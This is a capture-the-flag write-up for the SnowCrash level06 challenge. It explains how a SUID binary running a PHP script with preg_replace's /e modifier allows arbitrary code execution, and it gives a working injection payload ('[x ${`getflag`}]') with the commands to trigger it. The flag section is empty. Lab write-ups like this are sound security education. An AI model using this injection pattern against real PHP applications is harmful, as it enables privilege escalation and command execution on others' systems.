

# Level06 – SnowCrash

## Objective
Retrieve the flag for `level06` by exploiting a vulnerable SUID PHP script.

## Reconnaissance
The home directory contains:
- A SUID binary `level06`
- A PHP script `level06.php` executed by the binary
Inspection of `level06.php` reveals:
```bash
$a = file_get_contents($y);
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```

### Vulnerability
- The `/e` modifier in `preg_replace()` causes the replacement string to be evaluated as PHP code.
- If an attacker controls the file content passed to the script, they can execute arbitrary PHP code.
- Because `level06` is SUID and owned by `flag06`, injected code executes with `flag06` privileges.
## Exploitation
- Create a malicious file:
```bash
echo '[x ${`getflag`}]' > /tmp/test
```
- Execute the vulnerable binary:
```bash
./level06 /tmp/test
```
The injected payload triggers command execution via PHP evaluation, running `getflag` with flag06 privileges.

## Flag


